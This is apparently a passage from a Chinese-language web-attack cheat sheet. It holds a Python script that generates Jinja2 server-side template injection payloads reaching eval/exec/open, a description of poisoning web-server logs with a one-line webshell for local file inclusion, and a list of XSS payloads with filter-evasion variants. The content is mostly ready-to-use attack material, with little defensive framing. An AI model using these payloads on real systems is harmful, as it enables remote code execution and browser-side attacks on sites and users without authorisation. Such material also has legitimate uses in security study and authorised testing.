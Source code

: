 ```python
neededFunction = ['eval', 'open', 'exec']
pay = int(input("Payload?[1|0]"))
for index, i in enumerate({}.__class__.__base__.__subclasses__()):
    for attr in searchList:
        if hasattr(i, attr):
            if eval('str(i.'+attr+')[1:9]') == 'function':
                for goal in neededFunction:
                    if (eval('"'+goal+'" in i.'+attr+'.__globals__["__builtins__"].keys()')):
                        if pay != 1:
                            print(i.__name__,":", attr, goal)
                        else:
                            print("{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='" + i.__name__ + "' %}{{ c." + attr + ".__globals__['__builtins__']." + goal + "(\"[evil]\") }}{% endif %}{% endfor %}")
```

## 3. 本地文件包含

### 日志毒化

1. access.log
   当访问某个页面的时候, web 中间件(例如 apache 或 nginx)或生成 access 日志. 利用这一特性, 在访问某一页面时, 将 request 的某个 header 修改为一句话木马, 使用文件包含该日志的之后, 该一句话木马便会执行.

2. error.log
   当访问页面出错时, 访问的信息会被写入 error.log 中. 利用这一特性, 在使用文件包含漏洞注入文件名的时候, 将文件名替换为一句话木马. 则该访问信息会存储到 error.log 里. 这时使用文件包含该日志后, 一句话木马便会执行.

## 4. XSS Payload 收集

```html
<img src="1" onerror="javascript:top['ale'+'rt'](12345);" ; />
<img src="1" onerror="top['ale'+'rt'](12345);" ; />
<img src="x" onerror="javascript:window.onerror=alert;throw 1" />
```

XSS payload 速查表

      十进制值                         URL编码                            介绍
        47                              %2F                             正斜杠
        13                              %0D                             回车
        12                              %0C                             分页符
        10                              %0A                             换行
        9                               %09                             水平制表符

```
<svg></p ><style><a id="</style>< img src=1 onerror=alert(1)>
<svg><p><style><a id="</style>< img src=1 onerror=alert(1)>"></p ></svg>

<svg/οnlοad=alert(1)>

<svg

onload=alert(1)><svg> # newline char

<svg    onload=alert(1)><svg> # tab char

<svg οnlοad=alert(1)>   # new page char (0xc)

< img src=x onerror=alert()>

<svg onload=alert()>

<body onpageshow=alert(1)>

```